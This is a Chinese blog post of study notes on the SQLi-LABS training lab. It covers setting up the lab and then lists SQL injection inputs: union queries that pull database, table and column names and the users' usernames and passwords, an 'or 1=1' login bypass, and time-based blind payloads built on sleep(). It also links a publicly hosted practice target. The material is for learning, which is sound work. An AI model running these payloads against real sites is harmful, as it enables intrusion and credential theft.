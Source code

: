 ```yaml
---
title: SQL注入
date: 2020-05-01 19:00:01
tags: SQL
---
```


一些教程的记录:

* 来自CSDN  [通过sqli-labs学习sql注入——基础挑战之less1-10](https://blog.csdn.net/u012763794/article/details/51207833)

* 来自知乎  [SQL注入：Error Based Injection](https://zhuanlan.zhihu.com/p/74907340)

* 来自i春秋 [从基础开始:](https://bbs.ichunqiu.com/thread-9518-1-1.html)

* 一本书: 链接:<http://pan.baidu.com/share/link?shareid=1082654025&uk=3477169565>  密码: vhus

SQLi-LABS是	印度程序员（GitHub用户名Audi-1）写的一个用于学习SQL注入的教程。此教程包含的脚本可以在用户本地的MYSQL中创建一系列数据库，使用localhost访问以作为靶机进行练习。

实际上，网上已经有一个已经搭建好的靶机，运行于腾讯云的Ubuntu操作系统上，地址为<http://111.231.88.117/sqli_lab/sqli-labs-php7/>.不过这个不是我搭建的,如果不能用了不要找我.  =_=

## 配置环境:mysql+Apache

不建议在Windows上配置环境,除非本来电脑上没有MySQL,这时可以用PHPstudy这个集成环境.

### Apache的注意事项

<https://blog.csdn.net/maq56310/article/details/80580286>

如果443端口被占用,可以用

    netstat -ano //查看端口号对应的pid
    taskkill /f /pid 1234 //杀死1234进程,也可在任务管理器中杀死.

conf/httpd.conf的监听端口默认为80,改为8088解决

Sqli-labs文件夹应该放在C:\Apache24\htdocs下,而不是网上所有的其他博客说的web或者www

启动只能用 <http://localhost:8088/Sqli-labs/> ,不能用IP地址,不然打不开

实际上,Windows环境下搜到的各种解决方法都是不可用的,并且存在破坏本机环境的情况,我的mysql就不能用了.改用macos

### 在macOS上配置环境

很简单,首先安装docker,然后

    sudo docker pull acgpiano/sqli-labs

如果网络错误,建议开全局代理,之后

    docker run -dt --name sqli-lab -p 80:80 acgpiano/sqli-labs:latest

第一个80是主机的端口,将docker内的环境映射到物理机的80端口中

浏览器打开localhost即可访问

重启以后,需要

    docker stop sqli-lab
    docker rm sqli-lab
    docker run -dt --name sqli-lab -p 80:80 acgpiano/sqli-labs:latest

并且在网页里需要重新建数据库

## 基于错误的

### Less1 单引号注入,字符串,get

get是直接把参数写在URL里面的(-_-)!

MySQL中的注释是-- (两个减号一个空格,在URL中,最后的空格会被去掉,因此使用的时候用的是--+)

输入 ?id=1 返回 

    Your Login name:Dumb
    Your Password:Dumb

数字改成2,返回另外两个name和password

输入 ?id=2' 返回 

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''2'' LIMIT 0,1' at line 1

猜测SQL语句是 select xxx from xxx where '' limit 0,1

#### 获取列数

试图获取其他的信息需要使用union语句.union语句需要前面的结果和后面的结果的列数相同,因此需要得到原有的SQL语句查询结果中共有几列.接下来试图获取表的列数,方法是使用order by.在URL中输入:

	?id=1 order by 3 --+

可以正常返回结果,说明该表至少有三列.确定列数,只要order by 后面的数字一个一个试就可以了.由于最开始时已经返回了两个值,所以从3开始试即可.这个表中,试到4,即

    ?id=1 order by 4 --+

就出现了错误提示,所以共有三列.

而实际上页面回显的语句只有两个,因此需要知道显示的是哪两列,输入

    ?id=-1’ union select 1,2,3 --+

结果会显示数字2,3所以可知显示的是第2,3列.由于结果只显示第一行查询结果,这行语句中,id=-1使得union左边的语句查询结果为空以显示右边自行构造的SQL语句的结果,-1也可替换为其他的猜测不存在的数字.

#### 获取其他信息

数据库名:

    -1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+

group_concat让结果变成一行,因为返回的结果只显示一行=_=

表名:

    ?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security' --+

列名:

    ?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name= 'users' --+ 得到列名为id,username,password

数据表: 
    ?id=-1’ union select 1,group_concat(username),group_concat(password) from users --+ 

### less2,3,4 基于错误的

经过艰难的测试,靶机1,2,3,4的SQL语句实际上大同小异,区别主要在id被什么符号包裹在内,写出正确的闭合的SQL语句即可.他们可能被包裹在括号,双引号,单引号,或者前面几个的组合(或者啥也没有)的里面,只要有几个错误多试几次就容易看出来.

### less11 Post类型
 单引号
这个就是我们看见的输入账号和密码的类型了

用户名输入:**database()--+**, 密码输入**1=1 --**,报错:**…use near 'database()--+' and password='1=1 --' LIMIT 0,1' at line 1**.从这里看出,用户名和密码的验证是在同一行的,并且先验证用户名,那么我们在用户名的位置添加注释,尝试填写用户名为**aaa’or 1=1 – (此处有空格)**,密码填入**123**(密码可以不填),显示登陆成功,输出提示:**Your Login name:Dumb Your Password:Dumb.**

这个其实很简单,发现用户名和密码在同一行,那么在用户名那个地方填写注入语句即可.

### 布尔,时间,盲注

这种类型的SQL注入是最繁琐的.无论URL中的参数输入什么,都返回同一句话.

这样以上基于错误的方式就不能奏效了.因此采用另一种方法,利用if()和sleep(),观察网页加载的时间,从而判断语句是否正确执行.尝试: ?id=1' and sleep(3) --+,发现网页加载明显有延迟,说明注入成功.获取数据库名等的方法也与有回显的注入方法完全不一样.简而言之,没有回显的注入需要猜测或者穷举(可以用二分法查找,更快)结果中的每一个字符,来获得想要的结果.

获取数据库名称长度: ?id=1' and if(length(database())=8 , sleep(3), 1) --+,这行语句有明显加载延迟,说明数据库名称长度是8.在实际编写的脚本中往往使用不等号,减小猜测的时间复杂度.

获取数据库名: ?id=1' and if(left(database(),1)='s' , sleep(3), 1) --+,得知数据库名的第一个字符为s.同样,一般用ascii()方法将字符转换成数字,这样可以用二分法减小时间复杂度.比如 ?id=1' and if(((ascii(substr(database(),0,1)))>100),sleep(3),0)--+.

布尔盲注的手动操作非常繁琐,因此往往都是用脚本执行的.获取其他信息的方法类似,不再赘述.
